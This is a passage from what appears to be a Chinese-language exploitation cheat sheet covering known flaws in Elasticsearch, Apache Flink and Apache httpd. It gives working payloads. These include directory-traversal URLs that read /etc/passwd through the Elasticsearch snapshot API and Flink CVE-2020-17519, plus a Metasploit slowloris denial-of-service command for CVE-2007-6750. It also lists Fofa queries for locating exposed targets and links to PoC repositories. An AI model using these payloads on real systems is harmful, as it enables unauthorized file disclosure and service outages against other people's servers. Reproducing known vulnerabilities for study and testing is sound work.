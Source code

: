     {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata"
        }
    }
    ```

    目录穿越读取任意文件

    `http://your-ip:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

    在错误信息中包含文件内容 (编码后) ,对其进行解码即可获得文件

---

### Flink

> 官网 : https://flink.apache.org/

> Fofa: app="APACHE-Flink"

**CVE-2020-17518 文件写入**
- 相关文章
    - [CVE-2020-17518&17519：Flink两个漏洞复现](https://mp.weixin.qq.com/s/9xLQ1YAWVtHBv9qVk-Xc1A)

- POC | Payload | exp
    - https://github.com/QmF0c3UK/CVE-2020-17518.git

**CVE-2020-17519 文件读取**
- 相关文章
    - [漏洞复现|Apache Flink(CVE-2020-17519)漏洞分析](https://mp.weixin.qq.com/s/6Z7ilX_bwSBU8EWfStAc5w)

- POC | Payload | exp
    ```
    http://your-ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
    ```

---

### httpd

**CVE-2007-6750 Apache ddos**
- 简介

    Apache HTTP Server 1.x版本和2.x版本中存在资源管理错误漏洞。该漏洞源于网络系统或产品对系统资源（如内存、磁盘空间、文件等）的管理不当。

- MSF Module
    ```
    use auxiliary/dos/http/slowloris
    set RHOST <rhost>
    run
    ```

**CVE-2017-15715 Apache 解析漏洞**
- 影响版本
    - 2.4.0 < HTTPD <2.4.29
